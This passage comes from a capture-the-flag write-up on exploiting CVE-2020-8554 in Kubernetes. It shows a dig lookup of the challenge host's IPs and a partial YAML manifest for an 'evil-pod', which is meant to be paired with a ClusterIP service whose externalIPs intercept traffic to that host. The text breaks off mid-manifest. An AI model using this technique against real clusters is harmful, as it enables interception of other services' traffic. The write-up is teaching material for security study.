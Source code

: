 This is where the unfixed [CVE-2020-8554](https://nvd.nist.gov/vuln/detail/cve-2020-8554) comes in.
The CVE description says the following:
```
Kubernetes API server in all versions allows an attacker who is able to create a ClusterIP service and set the spec.externalIPs field, to intercept traffic to that IP address [...]
```

Nice, so let's first figure out what the IP address of `static.cscg.live` is so we can create a service with its external IPs:
``` 
# === commands ===
ctf:~$ dig static.cscg.live
# === output ===
...
static.cscg.live. 280 IN CNAME ingress.k8s.cscg.live.
ingress.k8s.cscg.live. 280 IN A 147.28.207.143
ingress.k8s.cscg.live. 280 IN A 147.28.207.163
ingress.k8s.cscg.live. 280 IN A 147.75.204.231
...
```
The DNS A records reveal the IPs. 

As a proof-of-concept, let's deploy a ClusterIP service and a lightweight app. For simplicity, we start with **HTTP**, not HTTPS. To do this, we create a new .yaml file and deploy a pod + service that serves "Hello" and has the `externalPs` set to those of `static.cscg.live`. To ensure we stay within our privileges, we need to add the right security context and resource limits (leaving them out throws errors indicating their requirement).
*Note: Don't use pods this way when you actually want to deploy a real service. Pods have different behavior and restart policies than deployments. In this case, it was simply more compact.*
```
cat << 'EOF' > evilpod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: ctf
  labels:
    app: evil
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000 
    seccompProfile:
      type: RuntimeDefault

  containers:
    - name: evil
      image: hashicorp/http-echo:0.2.3
      args:
        - "-text=Hello"
        - "-listen=:8080"
      securityContext:
        allowPrivilegeEscalation: false
        capabilities:
          drop:
            - ALL
      resources:
        requests:
          cpu: "50m"
          memory: "64Mi"
        limits:
          cpu: "100m"
          memory: "100Mi"
---
apiVersion: v1
```